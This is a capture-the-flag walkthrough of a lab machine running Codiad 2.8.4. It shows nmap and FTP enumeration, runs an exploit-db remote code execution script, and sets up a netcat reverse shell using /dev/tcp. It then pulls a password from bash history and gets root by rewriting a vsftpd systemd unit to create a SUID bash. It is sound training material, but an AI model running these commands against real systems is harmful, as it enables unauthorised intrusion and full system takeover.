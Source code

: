 
##Footprinting
first of all as always, we begin with an nmap scan 
```
Command used: nmap -sC -sV -p- -oN scan -T4 -P0 10.10.45.157
```

so from the result of our scan we can see that we a couple of ports open on our target machine.
- 21 - FTP
- 22 - SSH
- 80 -HTTP(Apache)
- 62337 - (Apache)
![image](/posts/res/ide_1.png)

##Enumerating FTP(port 21)

so on port 21 we have anonymous login enabled. lets start by checking that out.
```
Command used: ftp <target IP>
Username: Anonyomus
Password: <Leave_blank>
```

![image](/posts/res/ide_2.png)
from listing all directories we found a file called ***-*** let's download it to our machine.
```
command used: cd ...
get -
```

now lets cat out the content of the file :
```
cp - file
cat file
```
![image](/posts/res/w.png)
so from the content of the file we now have a Username and password.
username: john
password: password

##Enumerating HTTP(Port 80 and 62337)
since we have a web server running on port 80, lets head over to our web browser.
![image](/posts/res/ide_3.png)

we have a default server page. so let's have try to enumerate for sub directories using Gobuster to see what we can find.

```
command used: gobuster dir -u http://10.10.164.209/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

```
so i ran the scan for a while and found nothing interesting now lets move to the next apache server.

so heading over to the server on our browser we see a login screen ![image](/posts/res/ide_5.png)


earlier on from our nmap scan we could the that the server runs the following application ***Codiad 2.8.4*** . let's try  looking up this application on google.
![image](/posts/res/ide_6.png)
from our result we can see that this version of the application is vulnerable to ***Remote Code Execution***. now using this information let's try to get a foothold on the target machine.

we can download the exploit from here [[https://www.exploit-db.com/exploits/49705]]  or you can simply use the searchsploit tool on your kali machine.
![image](/posts/res/ide_7.png)

to get the exploit  script using searchsploit use the following command:
```
 searchsploit -m 49705 
```

![image](/posts/res/ide_8.png)

to run this exploit code we can make use of the following command: 
```
python 49705.py http://10.10.164.209:62337/ john password <Target_IP> 4444 linux

```
![image](/posts/res/ide_9.png)
next we must ensure we have set up our listener using netcat: 
command used : 
```
echo 'bash -c "bash -i >/dev/tcp/<local_machine_IP>/4445 0>&1 2>&1"' | nc -lnvp 4444

```
![image](/posts/res/ide_10.png)
setup another listener 
```
command used: nc -lnvp 4445
```

with all this setup we can now run the exploit.
![image](/posts/res/ide_11.png)
we have successfully gained a shell but we faced a challenge while trying to get the user flag. it appears that the user.txt file can only be access by the owner of the file called "drac". now lets find a way to horizontally escalate our privilege to the user drac.

to do this we can check the bash history file located in drac's directory 

```
command used: cd drac
ls -la
cat .bash_history
```
![image](/posts/res/ide_12.png)
we found drac's password in the history file now let's try to login via ssh with  the credentials.

![image](/posts/res/ide_13.png)
we successfully logged in as drac now let's view the file 
```
command used: cat user.txt
```
![image](/posts/res/ide_14.png)

##Privilege Escalation 
so if we run the id command we can see that drac is a part of the sudo group.- `drac` can run the following command with sudo – `/usr/sbin/service vsftpd restart`
- `drac` can write to the vsftpd.service file – `/lib/systemd/system/vsftpd.service`

- `/etc/polkit-1/localauthority.conf.d/51-ubuntu-admin.conf` contains `AdminIdentities=unix-group:sudo;unix-group:admin` (Default in Ubuntu)![image](/posts/res/ide_15.png)

Since 'drac' belongs to the sudo group, we can utilize Ubuntu's default Polkit rule to elevate our privileges.

now since we have privilege to edit the vsftpd service file, we can modify the file to run the following command:
- `cp /bin/bash /tmp/root_shell`
- `chmod +xs /tmp/root_shell`
This sequence of commands duplicates `/bin/bash` to `/tmp/root_shell` and configures the Set User ID (SUID) bit on it. This would enable us to execute the binary with the privileges of its owner, namely root.

Here is the revised process:

1. Edit the file located at `/lib/systemd/system/vsftpd.service`.
2. Insert the following code into the file:


```
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'cp /bin/bash /tmp/root_shell; chmod +xs /tmp/root_shell'
#ExecReload=/bin/kill -HUP $MAINPID
#ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target
```

![image](/posts/res/ide_16.png)

once you have made changes to the file save and restart the daemon using the following command: `systemctl daemon-reload`
![image](/posts/res/ide_17.png)

As a result, we were able to initiate our customized service by executing `sudo /usr/sbin/service vsftpd restart`. As anticipated, a file named `root_shell` was present within the `/tmp` directory. We utilized this file to spawn a root shell by executing `./tmp/root_shell -p`.


![image](/posts/res/ide_18.png)

and finally we are root!!!!!
